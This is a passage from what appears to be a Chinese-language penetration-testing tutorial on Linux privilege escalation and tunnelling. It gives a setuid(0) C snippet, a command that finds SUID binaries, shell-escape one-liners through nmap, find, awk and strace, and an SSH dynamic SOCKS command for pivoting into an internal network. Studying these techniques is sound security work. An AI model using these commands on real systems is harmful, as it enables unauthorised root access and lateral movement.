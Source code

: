 ![](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP446VYObiaWsjaGxEmiaFYC7Whksl5MmdhBQVic3C7X2V10nbvu6IRCnLLUpic27C3vXKavgSPDA0xzibQ/640?wx_fmt=png)

执行结果依然是当前用户，为何？

这是因为在高版本 Linux(附录 3) 中，如果启动 bash 的的 Effective UID 与 Real UID 不相同，而且没有使用 - p 参数，则 bash 会将 Effective UID 还原成 Real UID。即如果就算有 S 位，但没有使用 - p 参数，则最终执行的权限依然是当前用户的权限。

可以使用 setuid(附录 4) 使得 bash 当前 Effective UID 和 Real UID 相同来达到提权效果：

#include<stdlib.h>  

main()

{

setuid(0);

system("whoami> /tmp/test.txt");

}

![](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP446VYObiaWsjaGxEmiaFYC7WpleicPfjibf8XQsozNvClnVofx7bksLNxI9A4mUibQzkRwVEibzKMntmibg/640?wx_fmt=png)

我们可以使用如下命令来寻找服务器上设置了 SUID 的应用程序：

find / -perm -u=s -type f 2>/dev/null

![](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP446VYObiaWsjaGxEmiaFYC7WQlPUBKIaCFky8cHEvdysK1ibZXNvUNKRjlkuA2vrTE2Cyr4I2S5YI5A/640?wx_fmt=png)

下面列举几个常见的设置了 SUID 的应用程序提权手段。

**nmap**

nmap --interactive

!sh

**find**

find . -type f -exec /bin/bash \;

**awk**  

awk 'BEGIN {system("/bin/bash")}'  

**strace**

strace -o/dev/null /bin/bash  

_**隧道**_

Linux 上可以利用自带和第三方工具进行隧道开启，利用隧道，我们可以建立 Socks 连接、端口转发等操作。

**3.1 SSH**

Linux 上耳熟能详的就是 SSH 了，我们来看下 SSH 常用的开启隧道的命令。

**场景 a：**在控制 A 机器时，利用 socks 代理进入 A 机器所在内网

ssh -qTfnN -D 1111 root@AIP  

输入 A 机器密码，本地利用 proxychains 等类似工具连接本地的 1111 端口的 sock5 连接即可代理 A 机器的网络。
